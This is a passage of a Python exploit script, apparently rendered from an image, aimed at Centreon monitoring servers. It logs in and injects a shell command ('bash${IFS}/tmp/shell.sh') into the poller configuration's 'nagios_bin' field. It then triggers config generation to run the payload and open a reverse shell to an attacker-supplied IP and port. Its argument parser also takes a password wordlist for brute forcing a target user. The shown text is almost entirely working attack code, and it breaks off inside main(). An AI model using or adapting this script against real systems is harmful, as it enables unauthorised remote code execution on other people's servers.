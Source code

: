 ```py
        "ns_ip_address": "127.0.0.1",
        "localhost[localhost]": "1",
        "is_default[is_default]": "0",
        "remote_id": "",
        "ssh_port": "22",
        "init_script": "centengine",
        "nagios_bin": "%s" %payload, 
        "nagiostats_bin": "/usr/sbin/centenginestats",
        "nagios_perfdata": "/var/log/centreon-engine/service-perfdata",
        "centreonbroker_cfg_path": "/etc/centreon-broker",
        "centreonbroker_module_path": "/usr/share/centreon/lib/centreon-broker",
        "centreonbroker_logs_path": "",
        "centreonconnector_path": "/usr/lib64/centreon-connector",
        "init_script_centreontrapd": "centreontrapd",
        "snmp_trapd_path_conf": "/etc/snmp/centreon_traps/",
        "ns_activate[ns_activate]": "1",
        "submitC": "Save",
        "id": "1",
        "o": "c",
        "centreon_token": "%s" %cent_token}
    url = "http://%s:80/centreon/main.get.php?p=60901" %rhost
    headers = {"Upgrade-Insecure-Requests": "1", "Content-Type": "application/x-www-form-urlencoded"}
    r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)
    
    # Download to the server
    url = "http://%s:80/centreon/include/configuration/configGenerate/xml/generateFiles.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"}
    data = {"poller": "1", "debug": "true", "generate": "true"}
    r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)
    os.system("rm payload.txt")
    
def reverseShell(lhost,rhost):
    print("[+] Now Let's Get The Reverse Shell!!!! [+]")
    payload = "bash${IFS}/tmp/shell.sh"
    uploadMalicious(rhost,lhost,payload)
    # Trigger it
    url = "http://%s:80/centreon/include/configuration/configGenerate/xml/generateFiles.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"}
    data = {"poller": "1", "debug": "true", "generate": "true"}
    r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-u', '--username', help='Username to target', required=True)
    parser.add_argument('-w', '--wordlist', help='Wordlist to be used', required=True)
    parser.add_argument('-ip', '--ip', help='IP to receive the reverse shell', required=True)
    parser.add_argument('-p', '--port', help='Port to receive the reverse shell', required=True)
    args = parser.parse_args()

    rhost = args.target
    username = args.username
    wordlist = args.wordlist
    lhost = args.ip
    lport = args.port

    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Set up the web server
```